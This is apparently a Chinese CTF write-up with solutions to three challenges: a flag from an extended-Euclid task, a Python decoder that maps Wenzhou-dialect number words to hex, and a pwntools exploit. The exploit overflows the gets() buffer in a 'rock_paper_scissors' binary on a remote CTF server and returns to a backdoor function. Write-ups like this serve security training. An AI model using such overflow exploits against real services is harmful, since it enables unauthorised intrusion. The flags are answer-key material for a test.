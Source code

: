 ### 答案

`XSCTF{Ext3nded_Eucl1de4n_a1gOrithm_1s_50_eleg4nt.}`

## 恶魔的语言 题解

### 思路

`ng bo ng sa sii sa ng sii sii leu cai b leu e sii f cai cai ng f cai jau sa leng cai ng ng f leu b leu e sa leng cai cai ng f cai cai sa sa leu e cai a leu bo leu f cai ng ng f leu sii leu jau sa sii leu c leu ng leu sa cai sii cai d`

根据题意，这是一段温州话的发音．

网上查阅资料发现，这些两个字母及以上的词都是温州话相应数字的发音，并且~~注意到~~一个字母的只有a-f，很容易联想到十六进制．

### 代码

```python
from Crypto.Util.number import *

with open("devil's word.txt", 'r') as f:
    data = f.read().strip().split(' ') # 以空格为间隔提取词

table = {'leng': '0', 'lia': '2', 'sa': '3', 'sii': '4', 'ng': '5', 'leu': '6', 'cai': '7', 'bo': '8', 'jau': '9', 'a': 'a', 'b': 'b', 'c': 'c', 'd': 'd', 'e': 'e', 'f': 'f'} # 单表替换

print(long_to_bytes(int(''.join([table[n] for n in data]), 16))) # 拼接成ctr，以16进制方式解读成int，int转bytes
```

### 答案

`XSCTF{nOw_y0u_kn0w_w3nzhou_di4lect}`

## rock_paper_scissors 题解

### 思路

显然含有 `gets()` 危险函数，触发条件是 `v10 > 5`，即得分为 `6`．

~~注意到~~存在后门函数 `final()`，并且 checksec 发现没开 PIE，地址就是`0x4012E3`

~~注意到~~程序输出含有像 `当前得分：1` 这样的格式，于是我们直接不断发送比如 `石头`，直到接受到 `当前得分：6` 退出循环，发送 payload，实现栈溢出，劫持执行流．

### exp

```python
from pwn import *
io = remote("43.248.97.213", 30666)
# io = process('./rock_paper_scissors')

io.recv()
for _ in range(30):       # 运气应该不会这么背吧...
    io.sendline('石头')
    if b'6' in io.recv():
        break

payload = b'a' * 0x30 + b'b' * 0x8 + p64(0x4012E3) # v5: rbp-30h，rbp占8字节，final()地址
io.sendline(payload)
io.interactive()
```
